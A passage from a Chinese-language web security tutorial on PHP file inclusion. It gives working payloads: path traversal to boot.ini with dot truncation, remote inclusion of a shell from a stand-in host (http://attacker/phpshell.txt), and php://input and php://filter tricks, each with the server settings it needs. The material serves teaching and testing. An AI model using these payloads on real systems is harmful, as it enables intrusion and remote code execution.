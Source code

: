   Linux 需要文件名长于 4096，Windows 需要长于 256。
  
+ 点号截断

  ~~~
  ?file=../../../../../../../../../boot.ini/………[…]…………
  ~~~

  只适用Windows，点号需要长于256。

#### 远程文件包含

远程文件包含，Remote File Inclusion,RFI

~~~php
<?php
if ($route == "share") {
  require_once $basePath . "/action/m_share.php";
} elseif ($route == "sharelink") {
  require_once $basePath . "/action/m_sharelink.php";
}
~~~



构造变量basePath的值

~~~php
/?basePath=http://attacker/phpshell.txt?
~~~

最终的代码执行了

~~~php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
~~~

问号后的部分被解释为URL的querystring，这也是一种截断

+ 普通远程文件包含

  ~~~php
  ?file=[http|https|ftp]://example.com/shell.txt
  ~~~

  需要`allow_url_fopen=On`并且 `allow_url_include=On`

+ 利用PHP流input

  ~~~php
  ?file=php://input
  ~~~

  需要 `allow_url_include=On`

+ 利用PHP流filter

  ~~~php
  ?file=php://filter/convert.base64-encode/resource=index.php
  ~~~

  需要 `allow_url_include=On`

+ 利用Data URIs
